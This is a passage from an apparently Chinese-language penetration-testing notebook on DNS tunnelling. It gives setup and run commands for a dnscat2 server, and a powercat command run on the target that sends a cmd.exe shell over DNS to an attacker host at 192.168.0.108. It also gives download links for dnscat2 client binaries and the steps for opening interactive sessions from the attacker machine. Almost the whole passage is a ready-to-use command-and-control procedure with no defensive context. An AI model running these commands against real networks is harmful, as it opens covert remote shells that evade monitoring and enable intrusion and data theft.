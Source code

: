 #### Dnscat2
	安装dnscat2
	>apt-get -y install ruby-dev git make g++
	>gem install bundler
	>git clone https://github.com/iagox86/dnscat2.git
	>cd dnscat2/server
	>bundle install
	执行
	>ruby dnscat2.rb abc.com -e open --no-cache
![image](/assets/Pentest_Note/master/img/195.png)
#### Powercat
	靶机执行
	>powercat -c 192.168.0.108 -v -dns abc.com -e cmd.exe
![image](/assets/Pentest_Note/master/img/196.png)

	dnscat2执行
	>session -i 1进入会话
![image](/assets/Pentest_Note/master/img/197.png)
#### Dnscat2 exe
	Linux
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x86.tar.bz2 https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x64.tar.bz2
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip
	攻击机执行
	>ruby dnscat2.rb --dns "domain=zone.com,host=192.168.0.108" --no-cache
	靶机执行
	>dnscat2-v0.07-client-win32.exe --dns server=192.168.0.108
![image](/assets/Pentest_Note/master/img/198.png)

	攻击机执行
	>session -i [ID]进入会话
![image](/assets/Pentest_Note/master/img/199.png)
![image](/assets/Pentest_Note/master/img/200.png)